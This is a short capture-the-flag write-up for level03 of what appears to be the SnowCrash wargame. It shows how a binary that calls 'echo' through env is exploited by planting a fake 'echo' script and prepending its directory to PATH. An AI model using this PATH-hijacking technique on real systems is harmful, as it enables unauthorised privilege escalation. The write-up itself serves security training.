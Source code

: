 # Find the password of Flag03

## First check :
Home directory : \[✓\] not empty.

This time, we found a binary file which we run:

```
$ ./level03
$ Exploit me
```

## Exploit it.

The first thing that came us in mind is to hexdump the binary file.
#### result:
> /usr/bin/env echo Exploit me

The vulnerability is then in the `echo` which we exploit by injecting the `getflag` command in our *homemade echo*.
#### (by homemade, we mean the /home/... obviously **~**)


```
chmod 777 .
echo 'getflag' > echo
chmod +x echo
export PATH=/home/user/level03/:$PATH
```

We run again the `./level03` aaaand..

## TADAAAAAAA, It's ... 
[The next level flag](https://github.com/XD-OB/snowcrash/blob/master/level03/flag)

_tobecontinued_